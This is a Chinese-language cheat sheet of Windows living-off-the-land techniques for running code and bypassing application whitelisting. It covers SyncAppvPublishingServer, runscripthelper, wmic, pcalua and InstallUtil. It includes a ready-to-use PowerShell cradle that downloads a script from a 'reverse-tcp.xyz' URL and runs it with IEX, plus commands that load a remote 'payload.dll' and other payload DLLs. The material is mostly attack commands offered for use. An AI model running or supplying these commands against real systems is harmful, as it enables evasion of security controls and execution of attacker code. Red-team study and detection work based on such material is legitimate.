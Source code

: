 除了powershell.exe外，win10以上系统可以使用SyncAppvPublishingServer.exe来执行powershell

```powershell
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://reverse-tcp.xyz/script.ps1') | IEX
```

#### Runscripthelper

runscripthelper.exe是在Windows 10 RS3中引入的，它所做的事情是从一个特定的目录读取PowerShell代码并执行这些代码。

```powershell
runscripthelper.exe surfacecheck \\?\C:\Test\Microsoft\Diagnosis\scripts\test.txt C:\Test
```

Links:

- https://posts.specterops.io/bypassing-application-whitelisting-with-runscripthelper-exe-1906923658fc
- http://www.4hou.com/technology/8999.html

####  WMIC

使用wmic创建进程执行程序

```powershell
wmic process call create calc
```

Links:

- https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory

#### Pcalua

 Windows程序兼容性助理(Program Compatibility Assistant)的一个组件，通过-a参数可以直接执行exe或者dll

```powershell
C:\windows\system32\pcalua.exe -a C:\file.lnk 
C:\windows\system32\pcalua.exe -a notepad.exe 
C:\windows\system32\pcalua.exe -a \\server\payload.dll
```

Links：

- http://scz.617.cn/windows/201203151045.txt

#### InstallUtil

InstallUtil是.NET框架的一部分，允许用户通过命令提示快速安装和卸载应用程序

```powershell
x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.exe
```

当然可以结合其他命令使用，比如Certutil
